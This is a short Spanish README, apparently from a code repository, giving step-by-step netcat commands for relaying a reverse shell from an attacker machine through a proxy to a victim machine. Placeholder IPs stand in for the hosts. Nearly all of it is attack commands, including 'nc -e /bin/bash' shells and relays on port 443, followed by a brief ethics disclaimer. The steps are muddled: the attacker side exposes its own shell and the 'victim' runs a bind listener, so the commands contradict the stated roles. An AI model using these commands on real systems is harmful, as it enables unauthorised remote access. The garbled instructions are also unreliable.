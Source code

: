 # README - Configuración de Reverse Shell a través de Proxy
Este README proporciona instrucciones sobre cómo configurar una reverse shell desde una máquina atacante a través de un proxy hacia una máquina final.

# Configuración Máquinas involucradas:
  - Máquina atacante: (IP atacante)
  - Proxy: (IP proxy)
  - Máquina final: (IP víctima)

# Pasos para la configuración:
1. Máquina atacante (IP atacante):

2. Ejecuta el siguiente comando para establecer una conexión a través del proxy y enviar la shell inversa:
- nc -e /bin/bash (IP proxy) 443 | nc -v (IP víctima) 443 Proxy ((IP proxy)):

# Ejecuta el siguiente comando para escuchar en el puerto 443 y redirigir el tráfico entrante a la máquina final:

- nc -lvp 443 | nc -v (IP víctima) 443 Máquina final ((IP víctima)):

# Configura un listener para recibir la conexión entrante en el puerto 443:

- nc -lvp 443  -e /bin/bash

# Notas importantes:

Asegúrate de tener permisos adecuados y contar con el consentimiento del propietario del sistema antes de realizar este tipo de acciones.
La seguridad ética y responsable es esencial en todas las actividades relacionadas con la seguridad informática.
